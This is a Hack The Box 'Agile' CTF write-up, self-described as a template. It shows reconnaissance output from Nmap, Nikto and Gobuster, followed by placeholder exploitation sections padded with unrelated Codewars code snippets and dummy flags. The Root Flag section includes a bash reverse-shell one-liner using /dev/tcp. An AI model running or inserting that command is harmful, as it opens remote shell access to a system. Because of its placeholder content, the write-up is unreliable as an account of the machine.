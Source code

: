 ```yaml
---
title: "Hack The Box - Agile"
author: Ilyass Elannid
date: 2023-03-16
subject: "CTF Writeup"
keywords: [HTB, CTF, Hack The Box, Security]
lang: "en"
titlepage: true
title-page-color: "141d2b"
titlepage-rule-color: "11b925"
titlepage-text-color: "FFFFFF"
toc: true
toc-own-page: true
titlepage-background: ""
collection: writeups
permalink: /writeups/HTB-Agile
excerpt: 'This is a free boot2root machine on HackTheBox.'
...
```


![header](/images/agile.png)

**Link to the machine:** [Agile](https://app.hackthebox.com/machines/agile)

---


# Information Gathering

## Nmap
We begin our reconnaissance by running an Nmap scan checking default scripts and testing for vulnerabilities.

```console
$ nmap -A 10.10.11.203 -T4        
Starting Nmap 7.93 ( https://nmap.org ) at 2023-03-16 09:43 EDT
Nmap scan report for superpass.htb (10.10.11.203)
Host is up (0.19s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 f4bcee21d71f1aa26572212d5ba6f700 (ECDSA)
|_  256 65c1480d88cbb975a02ca5e6377e5106 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: SuperPassword \xF0\x9F\xA6\xB8
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 32.42 seconds
```
From the above output we can see that ports, **22** and **80** are the ports open.

## Nikto

```console
$ nikto -host 10.10.11.203                                                                                   1 ⨯
- Nikto v2.5.0
---------------------------------------------------------------------------
+ Target IP:          10.10.11.203
+ Target Hostname:    10.10.11.203
+ Target Port:        80
+ Start Time:         2023-03-16 09:55:02 (GMT-4)
---------------------------------------------------------------------------
+ Server: nginx/1.18.0 (Ubuntu)
+ /: The anti-clickjacking X-Frame-Options header is not present. See: https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-Frame-Options
+ /: The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type. See: https://www.netsparker.com/web-vulnerability-scanner/vulnerabilities/missing-content-type-header/
+ Root page / redirects to: http://superpass.htb
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ nginx/1.18.0 appears to be outdated (current is at least 1.20.1).
+ 8074 requests: 0 error(s) and 3 item(s) reported on remote host
+ End Time:           2023-03-16 10:17:43 (GMT-4) (1361 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested

```
Nothing interesting except that the server uses an outdated version of nginx.

## Gobuster
### Subdirectories:
Since we have a website then we scan the target for subdirectories.

```console
$ gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u superpass.htb -t 80
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://superpass.htb
[+] Method:                  GET
[+] Threads:                 80
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Timeout:                 10s
===============================================================
2023/03/16 09:59:28 Starting gobuster in directory enumeration mode
===============================================================
/download             (Status: 302) [Size: 249] [--> /account/login?next=%2Fdownload]
/static               (Status: 301) [Size: 178] [--> http://superpass.htb/static/]
/vault                (Status: 302) [Size: 243] [--> /account/login?next=%2Fvault]
Progress: 220470 / 220561 (99.96%)
===============================================================
2023/03/16 10:12:55 Finished
===============================================================

```
We found 3 subdirectories for the moment, none of whoch seems interesting as they all redirect to a login page or lead to an error, we can re-check those which require a login later if we succeed to do so.

Let's surf the website.

![My Website](../images/agile1.png)

\ **Figure 1:** My Website

After some clicking and navigation I found a page that allows to register a new user, store some passwords and then export those to a downloadable pdf file.

![Github](../images/agile2.png)

\ **Figure 2:** Github Profile


![Github](../images/agile3.png)

\ **Figure 2:** Github Profile

The first normal reaction that would come to anyones mind is to intercept the download request and mess a little bit with its content in order to achieve an LFI attack. But Let's not rush that and do more reconnaissance. We'll run gobuster again to see if there are any hidden pages we can access.

Maybe we want to show some python code too, to let's take a look at a snipped from [codewars](https://www.codewars.com) to format time as human readable.

```python
def make_readable(seconds):        

    hours = seconds / 60**2
    minutes = seconds/60 - hours*60
    seconds = seconds - hours*(60**2) - minutes*60

    return '%02d:%02d:%02d' % (hours, minutes, seconds)
```


# Exploitation  

In order to gain our initial foothold we need to blablablabla. Here's another code snippet just for fun.

```php
function sqInRect($lng, $wdth) {

    if($lng == $wdth) {
      return null;
    }

    $squares = array();

    while($lng*$wdth >= 1) {
      if($lng>$wdth) {
        $base = $wdth;
        $lng = $lng - $base;
      }
      else {
        $base = $lng;
        $wdth = $wdth - $base;
      }
      array_push($squares, $base);
    }
    return $squares;
}
```
Above is the php code for the **Rectangle into Squares** kata solution from codewars.


## User Flag

In order to get the user flag, we simply need to use `cat`, because this is a template and not a real writeup!

```
x@wartop:~$ cat user.txt
6u6baafnd3d54fc3b47squhp4e2bhk67
```

## Root Flag

The privilege escalation for this box was not hard, because this is an example and I've got sudo password. Here's some code to call a reverse shell `bash -i >& /dev/tcp/127.0.0.1/4444 0>&1`.


![Root](./images/root.png)
\ **Figure 3:** root.txt v5gw5zkh8rr3vmye7p4ka


# Conclusion
In the conclusion sections I like to write a little bit about how the box seemed to me overall, where I struggled, and what I learned.

# References
1. [https://ryankozak.com/how-i-do-my-ctf-writeups/](https://ryankozak.com/how-i-do-my-ctf-writeups/)
2. [https://github.com/Wandmalfarbe/pandoc-latex-template](https://github.com/Wandmalfarbe/pandoc-latex-template)
3. [https://hackthebox.eu](https://hackthebox.eu)
4. [https://forum.hackthebox.eu](https://forum.hackthebox.eu)
